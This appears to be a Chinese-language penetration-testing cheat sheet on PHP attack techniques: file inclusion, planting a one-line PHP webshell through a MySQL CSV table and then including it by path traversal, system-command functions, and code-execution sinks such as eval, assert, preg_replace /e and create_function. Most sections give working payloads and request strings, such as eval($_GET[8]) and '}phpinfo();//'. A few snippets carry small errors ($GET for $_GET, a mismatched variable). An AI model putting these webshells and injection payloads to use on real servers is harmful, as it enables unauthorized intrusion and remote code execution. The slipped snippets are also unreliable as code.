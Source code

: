 # php开启临时服务器

```bash
php -S 0.0.0.0:80 /path
```

# php文件包含利用

## 文件包含函数

用于引入外部代码，减少代码冗余

include()、include_once()：运行到那一行才引入，遇到错误继续下一行

require()、require_once()：先引入整合进代码，遇到错误停止程序

> _once：只引入一次

默认情况下allow_url_include=off，不允许引入外部文件

但存在一种特殊情况，windows可以通过SMB文件共享来绕过allow_url_include，文件包含时通过SMB共享文件来包含

## 利用mysql用户名密码写入一句话木马

> 爆破不出密码就尝试找其他文件上传漏洞

> 以下命令在mysql命令行环境中执行

### 查询数据库数据存储路径

```
select @@datadir
```

结果如：`D:\MySQL\data\`

### 选择数据库

- 查看数据库列表`select databases;`
- 选中有权限的数据库`use 数据库名`

### 创建表，将一句话木马作为字段名写入

```sql
create table if not exists `t`(`a` varchar(255) not null)engine=csv;
insert into t value('<?php eval($GET[8]);?>')
```

最后需要找到可控的引入点，将`D:\MySQL\data\数据库名\t.CSV`引入

绝对路径行不通的话可以尝试下相对路径`asdjfasdasdf/../../../../../../../../MySQL/data/数据库名/t.CSV`

# php系统命令执行函数

- `system('tasklist')`执行命令输出结果
- `passthru('netstat -ano')`执行命令输出结果
- `exec('cd ../../../&echo 1 > 1.php')`只能得到结果最后一行
- `shell_exec('systeminfo')`exce升级版，可以得到全部结果
- ```php
  //``是shell_exce的另一种写法，shell_exec被禁用``就用不了
  `whoami`;
  ``` 
- ```php
  //执行命令，并返回进程文件指针
  $f = popen('whoami','r');
  //读取文件,直到文件末尾（EOF）出现
  while(!feof($f)){
      echo fread($a,8192);
  }
  ```
  
php系统命令函数还有很多...

# php能执行代码的函数

## `eval`

**可执行多行代码**

```php
//eval('echo 123;phpinfo();');
eval($_GET[8]);
```

## `assert`

**只能执行单行代码**

```php
//assert('phpinfo()');
assert($_GET[8]);
```

嵌套eval，实现多行代码执行

发起请求：`http://xxx.com/xxx?8=eval('echo 123;phpinfo();')`

## `preg_replace(正则,替换为,原文本)`

**正则使用参数`/e`时修饰符存在代码执行漏洞，但必须真实发生替换才会触发代码执行**

```php
preg_replace('/a/e',$_GET[8],'a');
```

## `create_function(形参,函数体)`

```php
$f = create_function('$param','echo $param;');
// 以上等价于
function f ($param){echo $param;}
```

  
```php
$f = create_function('',$_GET[8]);
```

发起请求：`http://xxx.com/xxx?8=}phpinfo();//`

> `}`闭合函数体 | 执行代码 | `//`注释后面生成的`}`

结果将变成

function f(){ **}phpinfo();//** }


## `array_map(回调函数,待处理数组)`

**遍历处理数组**

> 能传回调函数的php自带函数都可以试试，不一定要array_map

```php
// 将每个请求参数的值依次传入`assert()`当做一行代码执行
array_map('assert',$_REQUEST);
```

## `"${phpinfo()}"`

**字符串变量解析**

> `php版本需大于5.5`

```php
$a = "${eval($_GET[8])}";
```



